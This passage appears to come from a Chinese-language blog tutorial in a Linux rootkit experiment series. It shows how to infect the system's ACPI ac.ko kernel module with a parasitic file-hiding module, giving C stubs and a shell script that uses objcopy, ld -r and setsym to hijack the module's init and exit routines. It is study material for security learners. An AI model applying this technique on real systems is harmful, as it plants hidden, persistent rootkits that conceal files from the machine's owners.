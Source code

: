 注意，这里的函数定义前都加了`__init`或`__exit`，这两个修饰前缀会把函数代码放到特殊的区域。所以，后面我们写寄生模块时也要给相关函数加上。另外，这两个函数前面都加了`static`，即符号只在本目标文件内可见，这一点在后面会讲到。

- 怎样用一个模块中符号的值去替换另一个模块中符号的值？

好了，宿主有了，入口出口函数也有了，关键点到了，我们怎么实现模块间感染？

回忆一下，`.ko`文件是可重定位文件，这意味着我们可以通过`ld`链接它们！

又有一个问题，上面提到宿主模块的入口/出口函数都有`static`标记，那么在`ld`时我们的寄生模块是无法获得它们的符号信息的，怎么办呢？

太巧了，有一个`objcopy`工具（`kali`上自带了，别的系统上如果没有可以手动安装，也可以不用工具自己手动修改）可以帮忙修改符号的属性，比如把`static`属性去掉。

一切都刚刚好，开始行动！

我们使用[ 00022 实验](https://brant-ruan.github.io/sec/2017/05/11/LinuxRootkitExp-00022.html)中的隐藏文件的模块来作为寄生模块。入口和出口函数做适当修改：

{% highlight c %}
// fileHid.c
extern int __init acpi_ac_init(void);
extern void __exit acpi_ac_exit(void);

__init int fshid_init(void)
{
    acpi_ac_init();
	...
}

__exit void fshid_exit(void)
{
    acpi_ac_exit();
	...
}
// module_init(fshid_init);
// module_exit(fshid_exit);
{% endhighlight %}

提醒一下，最后要注释掉`module_init`和`module_exit`呀！

将上述模块编译为`fileHid.ko`

```
#!/bin/bash

cp /lib/modules/$(uname -r)/kernel/drivers/acpi/ac.ko ./

# 修改 static 为全局变量
objcopy ac.ko gac.ko --globalize-symbol acpi_ac_init --globalize-symbol acpi_ac_exit

ld -r gac.ko fileHid.ko -o infected.ko

setsym infected.ko init_module $(setsym infected.ko fshid_init)
setsym infected.ko exit_module $(setsym infected.ko fshid_exit)
```

搞定，测试一下：
